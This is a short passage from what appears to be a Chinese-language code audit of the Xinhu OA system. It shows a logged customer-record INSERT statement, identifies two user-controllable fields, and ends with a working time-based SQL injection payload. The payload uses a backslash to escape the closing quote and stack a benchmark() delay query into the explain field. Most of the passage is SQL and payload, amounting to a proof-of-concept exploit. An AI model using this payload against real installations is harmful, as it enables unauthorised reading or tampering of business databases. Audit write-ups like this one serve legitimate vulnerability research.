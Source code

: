 ![image-20241031155954054](新律OA代码审计/image-20241031155954054.png)



```
insert into `xinhu_customer` set `name`='3',`type`='互联网',`laiyuan`='网上开拓',`unitname`='a2',`tel`='13800000000',`mobile`='1',`email`=null,`sheng`=null,`shi`=null,`address`='1111',`routeline`=null,`shibieid`=null,`openbank`=null,`cardid`=null,`status`='11',`isstat`='0',`isgys`='0',`linkname`='a3',`explain`=null,`optdt`='2024-10-31 16:02:19',`optname`='管理员',`uid`='1',`adddt`='2024-10-31 16:02:19',`createid`='1',`createname`='管理员',`comid`='1'
```

用转义字符过滤, 找两个可控字段：

unitname、linkname

```
insert into `xinhu_customer` set `name`='3',`type`='互联网',`laiyuan`='网上开拓',`unitname`='a2',`tel`='13800000000',`mobile`='1',`email`=null,`sheng`=null,`shi`=null,`address`='1111',`routeline`=null,`shibieid`=null,`openbank`=null,`cardid`=null,`status`='11',`isstat`='0',`isgys`='0',`linkname`='a3',`explain`='1',`optdt`='2024-10-31 16:02:19',`optname`='管理员',`uid`='1',`adddt`='2024-10-31 16:02:19',`createid`='1',`createname`='管理员',`comid`='1'
```



```
`linkname`='a3\',`explain`=';select(benchmark(10000000,to_days(2011-04-07)-to_days(now())<1));#'
```
